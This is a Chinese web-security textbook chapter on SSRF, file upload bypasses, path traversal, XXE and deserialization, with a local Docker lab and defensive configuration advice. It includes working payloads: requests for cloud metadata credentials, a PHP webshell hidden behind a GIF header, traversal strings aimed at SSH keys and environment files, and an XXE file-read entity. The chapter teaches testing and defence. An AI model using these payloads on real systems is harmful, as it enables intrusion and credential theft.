


# 第六章　Web 实战：服务端请求与文件处理

你给一个网站提交了一条图片地址，它替你把图下载下来，裁成缩略图，再把结果传回给你。整个过程里，图片不是你下载的，是它下载的。它在自己的机器上，用自己的网络出口，发起了这次请求。

这个动作本身太自然了，自然到写代码的人很少停下来想一件事，如果我把地址换成别的东西，它还会照做吗。它有没有权限访问那个地址，访问完的结果会不会被我看见。

这一章讲的就是这类问题。服务端代替你访问了一个资源，而它对这个资源的访问权限比你的大。SSRF 是这样，文件上传是这样，路径穿越是这样，XXE 和反序列化在很大程度上也是这样。它们的表现形式差得很远，判断方法却可以共用一套。

## 6.1 一条 URL 究竟是谁在访问

先搭一个最小环境。一台虚拟机跑靶场应用，一台跑攻击机，都在同一个仅主机网络里，网段用 `10.10.10.0/24`。靶场应用用 Flask 写三十行就够。

```python
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route("/fetch")
def fetch():
    url = request.args.get("url", "")
    resp = requests.get(url, timeout=3)
    return resp.text[:300]
```

这段代码的问题是显而易见的，参数没有任何检查。但真实系统里往往有检查，而检查的方式决定了这个洞是否真的存在。所以在测试时，第一件事不是往 `127.0.0.1` 打，而是先确认请求到底从哪台机器发出。

在自己那台机器上起一个监听。

```bash
python3 -m http.server 8000 --bind 0.0.0.0
```

然后让靶场应用去访问它。

```bash
curl -s "http://10.10.10.20:5000/fetch?url=http://10.10.10.99:8000/probe"
```

监听端的终端里出现了一条 `GET /probe` 的日志。这条日志是本机地址 `10.10.10.99` 收到的，说明请求由靶场应用所在的主机发出，而不是由你的 curl 发出。这一步确认了“服务端替你在访问”，剩下的才是边界问题。

如果监听端什么都没收到，先查三件事。应用是否在服务端加了白名单并且拒绝了你的地址；应用是否根本不发起网络请求，只是把 URL 存下来；网络是否不通。区分这三种情况的办法是给一个不存在的域名，看返回的错误信息。DNS 解析失败的报错和连接被拒绝的报错来自不同的层，能说明代码走到了哪一步。

同一个功能，可控程度往往不同。有的应用接受完整 URL，你能换掉协议、主机、端口、路径，这是最坏的情况。有的只接受路径，主机被写死，你只能改路径和参数，影响面小得多，但仍然能做路径穿越和参数注入。有的只接受域名，且拼在固定的 `https://` 后面。测试前先花两分钟判断属于哪一种，比盲目丢 payload 有效。区分方法很简单，把 URL 里的主机换成一个你能看到的域名，如果监听端收到了请求，说明主机可控；没收到但路径变了，说明只有路径可控。

<figure>

<figcaption>图 6-1　一次 SSRF 的请求路径。应用从自己的网络位置发起连接，于是防火墙对外的规则、只监听回环的服务、云主机的元数据地址，都变成了可达目标。字符串前缀校验挡不住重定向和 DNS 重绑定。</figcaption>
</figure>

## 6.2 可达面：从回环到元数据

确认了请求来源之后，可以把目标分成几层来试。

最内层是回环地址 `127.0.0.1`。很多服务为了省事只监听回环，比如数据库、缓存、管理端口。这些端口从外面连不上，从本机连得上。让应用去连 `http://127.0.0.1:6379/`，返回的内容哪怕是协议错误，也能说明端口是开的。

判断端口是否开放，看的是响应之间的差异。开放且不是 HTTP 的端口，`requests` 会在读响应时报错，报错内容通常是 `Connection reset by peer` 或者一个解码失败。关闭的端口会立刻返回 `Connection refused`。被防火墙丢包的端口则会一直等到超时。这三种情况在时间上就能分开，一条命令看总耗时。

```bash
for p in 22 6379 8080 3306; do
  curl -s -o /dev/null -w "$p %{http_code} %{time_total}\n" \
    "http://10.10.10.20:5000/fetch?url=http://127.0.0.1:$p/"
done
```

比回环更有价值的是云主机的元数据服务。它在链路本地地址上提供实例自己的信息，包括临时凭据。AWS 上是 `169.254.169.254`，阿里云上是 `100.100.100.200`。这些地址不需要认证就能访问，从公网却不可达，正好是 SSRF 的理想目标。

```bash
curl -s "http://10.10.10.20:5000/fetch?url=http://169.254.169.254/latest/meta-data/"
```

返回 200 和目录列表，说明拿到了一条通往实例凭据的路。往下通常是 `/latest/meta-data/iam/security-credentials/`，那里会给出角色名，再往下是临时的 AccessKey。AWS 后来加了 IMDSv2，读元数据前必须先 `PUT /latest/api/token` 拿一个 token，再带着 token 去 GET。这个改动让“只发一个 GET”的 SSRF 失效，但如果应用允许你控制请求方法或者能注入 header，限制又会被绕开。判断时看的是能否发出带自定义头的请求，而不是元数据地址本身。

还有一类目标不依赖 HTTP。`gopher://` 允许客户端发送任意 TCP 载荷，`dict://` 更简单一些。很多语言的 HTTP 库支持这两个协议，于是应用被变成了一个通用的 TCP 客户端。往 `gopher://127.0.0.1:6379/_` 后面拼上符合 Redis 协议的字节，就能在没有认证的 Redis 上执行命令。这里不展开具体载荷，只需要知道判断依据，如果应用接受 `gopher` 或 `dict` 协议头，内网的任意明文协议都可能被操纵。

校验本身有两种典型的失效方式，值得单独记住。

第一种是重定向。应用检查了你的域名是否在白名单里，然后 `requests.get` 默认会自动跟随 302。你控制的服务器返回一个 `Location: http://169.254.169.254/`，请求就跳过去了。检查发生在跳转之前，实际请求发生在跳转之后。

第二种是 DNS 重绑定。应用检查域名解析结果是不是内网地址，检查通过后，域名在你手里被改成 `127.0.0.1`，第二次解析得到的地址已经不同。这类攻击需要你控制一个权威 DNS，响应里把 TTL 设成 0 或者极小。

这两种方式说明同一件事，校验时必须用和实际连接完全相同的解析结果，否则就是两次独立的判断。

## 6.3 上传：链路上有五个决策点

文件上传麻烦的地方在于，一个文件从客户端到最终被执行，中间要经过五道处理，每一道都可能对“这个文件是什么”给出不同答案。

<figure>

<figcaption>图 6-2　上传文件从客户端到解析器的五道处理。每一道对文件类型的判断依据不同，只要上下游不一致，绕过就成立。</figcaption>
</figure>

客户端那一层没有任何可信度。文件名、`Content-Type`、文件内容全都可以随手改，用 `curl` 就能改。

```bash
curl -s -F "file=@probe.txt;filename=probe.php.jpg;type=image/jpeg" \
  http://10.10.10.20/upload.php
```

网关这一层通常做的事是限制大小、按类型头做粗筛。大小限制可以用分块传输绕过，类型头本身就是客户端给的，筛了等于没筛。

应用这一层才是真正写校验的地方，也是问题最多的地方。常见的两种校验是黑名单和后缀白名单加文件头检查。黑名单的问题是永远漏东西，`php`、`php3`、`php4`、`phtml`、`phar`、`pht` 在不同配置下都可能被当成 PHP 执行。文件头检查的典型实现是 PHP 的 `getimagesize()`，它只读前几个字节，一张 `GIF89a` 开头、后面接 PHP 代码的文件能顺利通过。

```text
GIF89a<?php system($_GET['c']); ?>
```

落盘这一层决定了文件放在哪、叫什么。改成随机名能防止直接猜路径，但如果目录本身在 Web 根下并且允许执行，随机名也只是多一次查找。落盘路径还牵涉到另一个问题，能不能用文件名里的 `../` 写到别的目录，这和要求里的路径穿越是同一件事。

解析这一层是全部问题的终点。文件被谁执行，取决于 Web 服务器怎么按后缀选处理器。Apache 配 `mod_php` 时，`probe.php.jpg` 会被当成 jpg 返回，`probe.jpg.php` 会被当成 PHP。nginx 配 `php-fpm` 时，`cgi.fix_pathinfo` 的取值决定 `/uploads/probe.jpg/x.php` 这种路径怎么处理。IIS 在旧版本上有分号截断的行为。这些规则都不是漏洞，是特性，但它们和应用的校验对不上，就成了绕过。

所以判断一个上传点，顺序应该是倒着的。先找文件落地后能不能直接访问，能不能被解析，再回头看前面几道检查在防什么。判断依据永远是最终由谁解析，而不是应用写了多少行校验代码。

顺带一提，即使文件确实不能被执行，能上传 HTML 或 SVG 也意味着同源下的脚本执行。SVG 里的 `<script>` 在浏览器打开时是会执行的，`Content-Type` 是 `image/svg+xml` 并不阻止这一点。这类问题的危害比 getshell 小，但足以读到同源的 cookie。

还有一种情况是文件根本不需要留下来。有些应用把上传的文件先写到临时目录，做完尺寸检查或格式转换就删掉。中间那段时间窗口里，文件是存在且可执行的，路径可以通过报错信息或者固定命名规则猜出来。这类漏洞靠手工点页面很难碰到，因为窗口太短，通常要配合大量并发请求去抢。它的存在提醒一件事，上传的判定不能只看最终状态，还要看中间状态。

## 6.4 路径穿越与任意文件读取

同一个下载接口，参数从 URL 换成文件名，问题就从“读什么”变成了“读哪里”。

```bash
curl -s "http://10.10.10.20/download?file=../../../../etc/passwd"
```

能读到 `/etc/passwd` 只证明了穿越成立，这个文件本身没有秘密。真正要看的是 `nginx.conf`、应用的 `.env`、`~/.ssh/id_rsa`、数据库配置文件，以及 `/proc/self/environ` 里的环境变量。

防守方对 `../` 的处理经常是字符串替换。把 `../` 删掉，`....//` 删完变成 `../`，穿越依然成立。把 `..` 删掉，`..././` 也一样。这类替换只有在循环做到不再变化时才算有效，而多数实现只做一次。

编码是另一条路。`%2e%2e%2f` 是 `../` 的 URL 编码，`..%252f` 是双重编码，`..%c0%af` 是某些环境下对超长编码的宽松解析。判断方法是同一条路径分别用明文和三种编码各发一次，看返回的长度和内容是否一致。

绝对路径也值得试。参数是 `file=/etc/passwd` 时，有些实现会先拼上基目录再判断，有些会直接打开。Windows 上则是 `..\..\windows\win.ini` 和 `%5c`。

还有一个容易被忽略的入口是日志。Web 服务器会把请求行写进 access log，如果日志文件位置固定、内容部分可控，先用穿越读到日志，再往 User-Agent 里塞一段代码，最后让某个包含操作把日志当成脚本执行。这条链需要两个条件同时成立，能读日志和能执行日志所在目录下的文件。

用 `realpath` 做检查是正确做法，但顺序容易写错。先把用户输入拼上基目录，再 `realpath`，再判断结果是否以基目录开头，这样写能防住穿越。反过来，先 `realpath` 再判断，或者判断完再拼路径，中间就多了一个可以插入的机会。测试时不需要读代码，把 `file=download.php` 和 `file=./download.php` 各发一次，看返回是否一致，就能看出它有没有做规范化。

## 6.5 XXE 与反序列化：先判断，再动手

这两类漏洞的共同点是，输入本身被当成结构化数据解析，而解析器愿意做超出预期的事。

XXE 的前提是请求体是 XML，并且解析器加载了外部实体。判断是否成立，先看有没有回显。构造一个引用本地文件的实体，如果响应里出现了文件内容，就是有回显的 XXE。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
  <!ENTITY x SYSTEM "file:///etc/passwd">
]>
<r>&x;</r>
```

没有回显时，只能靠带外来判断。把实体指向自己机器上的 HTTP 服务，看有没有请求进来。`file://` 读不到的内容，可以用 `php://filter/convert.base64-encode/resource=index.php` 读源码，也可以读 `expect://` 如果扩展装了。

防守的现状是明确的，libxml 从 2.9 起就不再默认解析外部实体，PHP 8 里相关开关默认关闭。所以碰到 XXE 的机会比以前少，但只要代码里显式打开了实体加载，问题就还在。

反序列化要先认出来。几个常见的魔数可以直接记。

| 语言 | 开头特征 | 说明 |
| --- | --- | --- |
| Java | `rO0AB` | base64 后是 `AC ED 00 05` |
| PHP | `O:4:"User":2:{` | 类名与属性个数 |
| Python | `\x80\x04` | pickle 协议 4 |
| .NET | `AAEAAAD/////` | BinaryFormatter |

在参数、cookie、header 里看到这些特征，就有一个值得追的线索。接下来的判断分两步。第一步，改动其中一个字段，看服务端报错里有没有出现类名或者 `unserialize()` 的警告，有就说明数据真的被反序列化了。第二步，判断有没有可用的类，这需要看目标用了哪些依赖库，Java 生态里历史上出问题的库不少，PHP 则看有没有带 `__destruct` 或 `__wakeup` 的类。

这两步都成立，才谈得上构造利用链。这里不展开链条的写法，因为每一条链都绑死在一个具体的库版本上，换个环境就失效。判断的价值在于，它决定了这个点值不值得投入时间。

PHP 还有一个变体值得一提，`phar://` 伪协议在操作文件时会触发 phar 元数据的反序列化。也就是说，一个看起来只接受图片路径的功能，只要用 `phar://` 打开过你上传的文件，反序列化就会发生。判断方法是在上传的图片里塞一段带 `__destruct` 的序列化数据，把参数改成 `phar://` 开头的路径，看服务端行为是否变化。这类洞在文件操作类功能里比 XML 更常见，因为没有人会想到图片路径也能触发反序列化。

## 6.6 它们其实是同一个错误

把上面几节放在一起看，会发现结构是一样的。

应用拿到一个由外部指定的资源定位符，用它去访问一个资源，而这个资源的访问权限比外部调用者大。URL 指向内网，文件名指向上级目录，XML 实体指向本地文件，序列化数据里的类名指向一个能执行命令的对象。四种写法，一个模型。

防守的落点也因此是共用的。不要相信“校验过的字符串”和“实际使用的字符串”是同一个，中间的每一次解析、解码、跳转、拼接都可能改变它的含义。真正管用的是在最后一刻做判断，并且用一个不可绕过的边界兜底。SSRF 的兜底是出口防火墙，上传的兜底是文件目录不可执行且不在 Web 根下，文件读取的兜底是白名单式的文件 ID 而不是路径。

这些漏洞在日志里也长得像。一个应用对外发起的请求，目标地址很少出现内网 IP；正常的上传请求，文件名里很少有两个点；正常的下载请求，参数很少带编码过的点。把这几条写成告警规则，比在代码里堆校验更容易覆盖到遗漏的地方。规则的价值不在于拦住第一次，而在于让人知道有人在试。

## 6.7 一个能复现的 SSRF 靶场

用真实的云环境测 SSRF 不现实，但可以把它压进三个容器，三个都在自己的机器里。关键是那个 `169.254.169.254`，它必须真的能从应用容器里访问到，否则所有验证都停在“理论上”。

```yaml
services:
  app:
    build: .
    ports: ["10.10.10.20:5000:5000"]
    networks: [lab, meta]
    environment:
      MODE: pure
  redis:
    image: redis:7-alpine
    networks: [lab]
  metadata:
    image: nginx:alpine
    networks:
      meta:
        ipv4_address: 169.254.169.254
    volumes: ["./meta:/usr/share/nginx/html:ro"]

networks:
  lab:
  meta:
    ipam:
      config:
        - subnet: 169.254.169.0/24
```

`app` 接两个网络，所以它既能访问 `redis`，也能访问那个假元数据地址。应用的代码很短，一个路由加一次请求就够。

```python
mode = os.environ.get("MODE", "pure")
allow_redirects = mode != "safe"

@app.get("/fetch")
def fetch():
    url = request.args["url"]
    r = requests.get(url, timeout=3, allow_redirects=allow_redirects)
    return r.text[:300]
```

假元数据目录长这样，`latest/meta-data/iam/security-credentials/` 下放一个角色名文件，里面写一串明显的假凭据。

```text
meta/latest/meta-data/iam/security-credentials/web-role
```

验证四个面，每个面一条命令，分别是元数据根目录、元数据凭据、内网服务名、应用自己的回环端口。第三个用的是非 HTTP 服务，返回的报错可以区分“端口开着”和“端口关着”。

```bash
for u in 'http://169.254.169.254/latest/meta-data/' \
         'http://169.254.169.254/latest/meta-data/iam/security-credentials/web-role' \
         'http://redis:6379/' \
         'http://127.0.0.1:5000/health'; do
  curl -s -m 4 "http://10.10.10.20:5000/fetch?url=$u" | head -3
done
```

四条里任何一条返回了页面内容，就说明这个面的可达性成立。第三条的返回值通常是 `-ERR unknown command` 之类，而这正是 Redis 在告诉你“我收到了一条不是 Redis 命令的字节”。

把 `MODE` 改成 `safe` 再跑同一组，全部被拦住，才算知道了防御的长相。改之前先写一份清单，注明四个面各自应该返回什么，否则跑完看到一堆不同结果，很难判断到底拦住了几个。四个面里最容易被忽略的是第三个，它不靠 HTTP 协议，也不是内网段，而是一个名字。很多白名单只校 IP 段，对内网域名不管，而内网名字往往指向同一个地方。

重定向和 DNS 重绑定都能在这个靶场里复现。重定向最简单，加一个只回 302 的路由，不需要任何额外服务。

```python
@app.get("/redirect")
def redirect_to_meta():
    return redirect("http://169.254.169.254/latest/meta-data/", code=302)
```

把 `/fetch?url=http://10.10.10.20:5000/redirect` 发过去，`allow_redirects=True` 时请求会被带到元数据上，返回内容里直接就有目录。这就是“校验发生在跳转之前、请求发生在跳转之后”的具体形状。

DNS 重绑定要自己搭一个权威服务器，第一次解析给白名单里的地址，第二次给 `127.0.0.1`，TTL 设成 0。判断一个实现在这一点上安不安全，不需要真去重绑定，看它有没有在建立连接时重新校验就够了。

校验的写法里有一个细节要提前记住。正确顺序是先把域名解析成 IP，校验这个 IP，然后用这个 IP 去连。

```python
ip = socket.gethostbyname(host)
if is_private(ip):
    abort(403)
resp = requests.get(f"http://{ip}/", headers={"Host": host}, timeout=3)
```

两次解析之间只要有任何变化，校验就失效。上面这段把两次合并成一次，同时保留 `Host` 头，目标站点的虚拟主机配置才不会报错。

## 6.8 上传链路用配置证明

上传点是否危险，不看应用写了多少行校验，看最后一步是谁在解析。要证实这一步，需要看最终生效的服务器配置，而不是仓库里那份可能没被 include 的配置。

```bash
nginx -T | grep -n -A6 'location ~ .*\.php'
docker exec web nginx -T | grep -n 'SCRIPT_FILENAME'
```

`nginx -T` 打印的是合并之后的内容，包括所有 `include`。直接读 `sites-enabled/default` 只能看到一部分，真正生效的可能是 `conf.d` 里的另外一段。

nginx 最常见的错误配置是这一段。

```nginx
location ~ \.php$ {
    fastcgi_pass 127.0.0.1:9000;
    include fastcgi_params;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
}
```

`SCRIPT_FILENAME` 直接用了请求路径。当 `cgi.fix_pathinfo` 为 1 时，`/uploads/a.jpg/x.php` 会先被当成一个路径交给 php-fpm，php-fpm 发现文件不存在，向前回溯到 `/uploads/a.jpg`，把那个文件当 PHP 执行。判断这个方法是否适用，只看一项配置。

```bash
php -i | grep -E '^cgi.fix_pathinfo'
```

返回 1 就是一个能跑的绕过面，返回 0 时这条路径关闭。

Apache 的行为要麻烦一些，`AddHandler` 和 `SetHandler` 的匹配规则不同，不同版本的差异也不能靠文档猜。拿三个文件实际请求一遍最清楚。

```bash
cd /var/www/html/uploads
printf '<?php echo "HIT" ; ?>' > a.jpg
printf '<?php echo "HIT" ; ?>' > b.php.jpg
printf '<?php echo "HIT" ; ?>' > c.jpg.php
for f in a.jpg b.php.jpg c.jpg.php; do
  printf '%s ' "$f"
  curl -s -o /dev/null -w '%{http_code} %{size_download}\n' "http://10.10.10.20/uploads/$f"
done
```

三个结果里哪些返回了 `HIT`，就决定了应用该拦哪些后缀。把这张表直接写进验证记录，比写“上传点可能存在解析绕过”有用得多。

落盘目录本身也要看。如果 `/uploads` 在 Web 根下并且允许执行，那么前一道校验只能决定“能不能改名”，不能决定“能不能跑”。正确的做法是把这个目录的解析关掉，nginx 里对应的是单独一段 location 把请求交给静态文件处理。

```nginx
location ^~ /uploads/ {
    try_files $uri =404;
}
```

`^~` 一旦匹配就不再往下走正则，所以写在文件后面的 `location ~ \.php$` 不会接管。少了这个修饰符，`/uploads/c.jpg.php` 仍然会被那一块正则捕获。这类配置细节没法只靠读一遍看出来，能直接执行的验证就是再请求一次 `c.jpg.php`，看 `Content-Type` 是 `text/html` 还是被 PHP 处理后的结果。部署新版本时这一段最容易回退，所以查的永远是运行中的配置，不是仓库里的。

还有两处配置不在 nginx 里，却直接决定你测出来的结果。

```bash
apachectl -S
grep -E '^(chdir|security.limit_extensions)' /etc/php/*/fpm/pool.d/www.conf
```

第一条列出虚拟主机的匹配顺序，哪个 `DocumentRoot` 生效一眼能看到，找错目录是排查时最常见的浪费。第二条里 `security.limit_extensions` 决定 php-fpm 愿意执行哪些后缀，默认只认 `.php`，有人为了图方便改成了空，等于把所有后缀都放开了。

网关层能做的只有三件事，限大小、限总量、记日志。`client_max_body_size` 超了返回 413，这个值要看业务定，定小了把正常用户挡在外面，定大了等于没限。`Content-Type` 由客户端提供，按它筛等于没筛，配置里再写一遍只是让人少犯一次这个错。

五道决策点走完，结论只有三种。文件落地后不可访问，风险最低。可访问但不可解析，风险中等，危害限于同源脚本和内容欺骗。可访问且可解析，风险最高，这时候任何一个后缀绕过都直接变成代码执行。报告里写清属于哪一种，读的人才知道该多急。

还有一个中间状态不要忽略。临时目录里的文件在转换完成之前是完整的，路径往往可预测，名字由时间戳或会话 ID 拼成。检查方式是把一次上传完整抓下来，看响应头和错误信息里有没有漏出临时路径，再用那个路径直接请求。

下一章换一个方向。上面这些漏洞都不需要知道谁在访问，而认证和会话要回答的正是这个问题，服务器凭什么相信这次请求来自你。
